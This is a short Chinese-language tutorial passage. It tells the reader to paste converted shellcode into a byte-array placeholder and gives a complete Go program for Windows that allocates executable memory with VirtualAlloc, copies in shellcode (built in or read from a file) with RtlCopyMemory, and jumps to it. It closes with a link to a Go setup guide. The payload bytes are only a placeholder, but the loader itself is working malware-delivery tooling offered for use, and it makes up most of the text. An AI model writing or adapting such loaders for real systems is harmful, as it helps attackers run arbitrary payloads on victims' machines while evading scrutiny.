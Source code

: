 将转换后的shellcode替换到下面的`shellcode_buf`位置，文件保存为`shell.go`

```
package main

import (
	"io/ioutil"
	"os"
	"syscall"
	"unsafe"
)

const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40
)

var (
	kernel32       = syscall.MustLoadDLL("kernel32.dll")
	ntdll          = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc   = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory  = ntdll.MustFindProc("RtlCopyMemory")
	shellcode_buf = []byte{
		0xfc, 0x48,  ----shellcode----, 0xd5,
	}
)

func checkErr(err error) {
	if err != nil {
		if err.Error() != "The operation completed successfully." {
			println(err.Error())
			os.Exit(1)
		}
	}
}

func main() {
	shellcode := shellcode_buf
	if len(os.Args) > 1 {
		shellcodeFileData, err := ioutil.ReadFile(os.Args[1])
		checkErr(err)
		shellcode = shellcodeFileData
	}

	addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if addr == 0 {
		checkErr(err)
	}
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	checkErr(err)
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```
安装golang，参考：`https://www.runoob.com/go/go-environment.html`
